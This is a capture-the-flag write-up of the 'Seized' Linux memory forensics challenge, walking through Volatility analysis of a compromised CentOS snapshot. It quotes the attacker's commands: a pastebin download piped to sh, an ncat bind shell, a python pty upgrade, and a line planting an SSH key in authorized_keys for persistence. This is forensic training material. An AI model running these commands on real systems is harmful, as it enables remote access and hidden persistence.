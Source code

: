 # Seized

[X] écriture
[ ] abstract
[ ] post linkedin

The Scenario:

> Using Volatility, utilize your memory analysis skills as a security blue team analyst to Investigate the provided Linux memory snapshots and figure out attack details.

## Q1. What is the CentOS version installed on the machine?

The archive name provides the kernel version, using the [CentOS Wikipedia page](https://en.wikipedia.org/wiki/CentOS) you will see that the corresponding CentOS version is `7.7-1908`.

## Q2. There is a command containing a strange message in the bash history. Will you be able to read it?

Using `linux_bash` plugin we could see that the user put content in a file : `echo "c2hrQ1RGe2wzdHNfc3Q0cnRfdGgzXzFudjNzdF83NWNjNTU0NzZmM2RmZTE2MjlhYzYwfQo=" > y0ush0uldr34dth1s.txt`. Decode the base64 using cyberchef gives the flag.

## Q3. What is the PID of the suspicious process?

`linux_pstree` shows more than 200 processes. Instead to explore each of them, a clever way is to directly focuse on strange processes using `linux_malfind` : 

```log
Process: gnome-terminal- Pid: 2535 Address: 0x7f1d414bf000 File: Anonymous Mapping
Protection: VM_READ|VM_WRITE|VM_EXEC
Flags: VM_READ|VM_WRITE|VM_EXEC|VM_MAYREAD|VM_MAYWRITE|VM_MAYEXEC|VM_ACCOUNT|VM_CAN_NONLINEAR

0x007f1d414bf000  78 5f 00 00 00 00 00 00 00 00 00 00 00 00 00 00   x_..............
0x007f1d414bf010  53 41 57 41 56 41 55 55 48 8b df 48 81 ec 50 02   SAWAVAUUH..H..P.
0x007f1d414bf020  00 00 48 8b 43 10 48 83 e8 01 48 8d 74 24 58 48   ..H.C.H...H.t$XH
0x007f1d414bf030  c7 c1 13 00 00 00 48 89 46 08 48 8d 76 08 48 83   ......H.F.H.v.H.
```

Exploring this PID on the `pstree`, proove that there is something suspicious, as `insmod` is used to insert modules into the kernel : 

```log
...
.gnome-terminal-     2535            1000
..gnome-pty-helpe    2621            1000
..bash               2622            1000
...sudo              3612
....insmod           3614
...
```

**Unfortunately, that's none of them.** Suspicious activity is not always malicious.

Exploring again the `pstree`, we can see something else suspicious :

```log
.ncat                2854
..bash               2876
...python            2886
....bash             2887
.....vim             3196
```

This one is more suspicious than the previous one because of the `ncat` (network process) launching some scripts.

## Q4. The attacker downloaded a backdoor to gain persistence. What is the hidden message in this backdoor?

I was unable to find this answer. I tried to list all the cached files using `linux_cached_file` to see if there is some suspicious one and dump it, but I found nothing. I tried to dump the suspicious process but without results too.

I also tried the github present in the bash history but I didn't see the hidden line pushed to the right : 

```python3
os.system('wget -O - https://pastebin.com/raw/nQwMKjtZ 2>/dev/null|sh')
```

A write-up gave me the flag because the links seems not valid anymore. This pastebin should contains a base64 strings which is the flag :

```bash
### Congratz : c2hrQ1RGe3RoNHRfdzRzXzRfZHVtYl9iNGNrZDAwcl84NjAzM2MxOWUzZjM5MzE1YzAwZGNhfQo=
nohup ncat -lvp 12345 -4 -e /bin/bash > /dev/null 2>/dev/null &
```

## Q5. What are the attacker's IP address and the local port on the targeted machine?

Using `linux_netstat` returns a lot of information but at the end of the output we could see theses lines : 

```log
TCP      192.168.49.135  :12345 192.168.49.1    :44122 ESTABLISHED                  ncat/2854 
TCP      192.168.49.135  :12345 192.168.49.1    :44122 ESTABLISHED                  bash/2876 
TCP      192.168.49.135  :12345 192.168.49.1    :44122 ESTABLISHED                python/2886 
TCP      192.168.49.135  :12345 192.168.49.1    :44122 ESTABLISHED                  bash/2887 
TCP      192.168.49.135  :12345 192.168.49.1    :44122 ESTABLISHED                   vim/3196 
```

The **local** port is the one written in the script above, and the attacker's IP address is the other.

## Q6. What is the first command that the attacker executed?

We can't see other commands with `linux_bash`, a different way to investigate on this kind of clues is the `linux_psaux` plug-in. The output bottom is interesting, as it contains the malware related command line arguments :

```log
2854   0      0      ncat -lvp 12345 -4 -e /bin/bash
2876   0      0      /bin/bash
2886   0      0      python -c import pty; pty.spawn("/bin/bash")
2887   0      0      /bin/bash
3196   0      0      vim /etc/rc.local
3271   0      0      /usr/sbin/abrt-dbus -t133
3279   89     89     cleanup -z -t unix -u
3280   89     89     trivial-rewrite -n rewrite -t unix -u
3281   0      0      local -t unix
3299   0      0      sleep 60
3612   0      0      sudo insmod lime-3.10.0-1062.el7.x86_64.ko path=/Linux64.mem format=lime
3614   0      0      insmod lime-3.10.0-1062.el7.x86_64.ko path=/Linux64.mem format=lime
```

Just after the `netcat`, the attackers run `python -c import pty; pty.spawn("/bin/bash")`.

## Q7. After changing the user password, we found that the attacker still has access. Can you find out how?

This question is quite hard. First, you have to investigate on the `vim` process. Why this process?

- we didn't care of it yet

- it's a part of the cyber kill chain

- intuition I guess?

After dumping the process using `linux_dump_map`, we could see that the process memory contains lot of information. It contains so much that is difficult to know what to look for. We are looking for malware persistence mecanisms, we can try to ask to ChatGPT what are the most famous persistence mecanism. We can investigate on several answer but the good one is SSH keys. If we search on these files for ssh-things, we will find the answer :

```logs
strings *.vma|grep -i 'ssh'

#!/bin/sh 
     # Well played : c2hrQ1RGe3JjLmwwYzRsXzFzX2Z1bm55X2JlMjQ3MmNmYWVlZDQ2N2VjOWNhYjViNWEzOGU1ZmEwfQo=
    
    echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCxa8zsyblvEoajgtqciK2XAs1UwNAeV3RcXacqicjzuad2jH7JQdIaqVW4jfEt8h7w+Rei1kZL/xqikGS/AGb2ZLqVSUKWF9afaeE850On4+c1A0wu9n/7N/t2QSnw71BZnvH35+qgENJzFGgFxJEsvZqbawFHD8B426qKFYD+LMAnnFtnrzFj8U+cewG6ODl0Obe8yP/Awv0HYFdhK/IY+t7u2Ywrgp3bXF1l5m+Zk40BqpEYfFzhawYOc/tar1HqaJnYdvqHjwhZeDGYkILvYt4veVc/DjVPX1UjLvlpWv1/AhmLAWgWyUORBwDjM5km0HjN/CY5kWoasXgd1jHD tw0phi@workstation" >> /home/k3vin/.ssh/authorized_keys && chmod 600 /home/k3vin/.ssh/authorized_keys
    "/etc/rc.local" 3L, 596C
    1,1           
    All zed_keys> /home/k3vin/.ssh/authorized_keys && 
    chmod 600 /home/k3vin/.ssh/authori
```

The first base64 encoded string is the flag. It's interesting to capitalize on knowledge to understand this persistance mecanism :

**This code add a SSH key for the K3vin user and modify its permissions in a manner that only this user can modify it.**

## Q8. What is the name of the rootkit that the attacker used?

Thanks to this tutorial, [Analyzing Linux Rootkits with Volatility](https://downloads.volatilityfoundation.org/omfw/2012/OMFW2012_Case.pdf), we learned some ways to detect rootkit on a Linux system. One of them is to investigate on syscalls using `linux_check_syscall`. This command returns lot of information but we are only interested in the hooked syscalls.

```logs
Table Name Index System Call              Handler Address    Symbol                                                      
---------- ----- ------------------------ ------------------ ------------------------------------------------------------
64bit         88                          0xffffffffc0a12470 HOOKED: sysemptyrect/syscall_callback
...
64bit        332                          0x6461625f6e726177 HOOKED: UNKNOWN
```

Firstly, I was quite lost ; how can I find the rootkit name ? In fact, the `Symbol` column contains the rootkit name here.

## Q9. The rootkit uses crc65 encryption. What is the key?

Firstly, I searched on internet if this rootkit has a known crc65 encryption key. I found many Write-Up but searching `sysemptyrect` in the dump file (using `grep` for example) will give you the key.
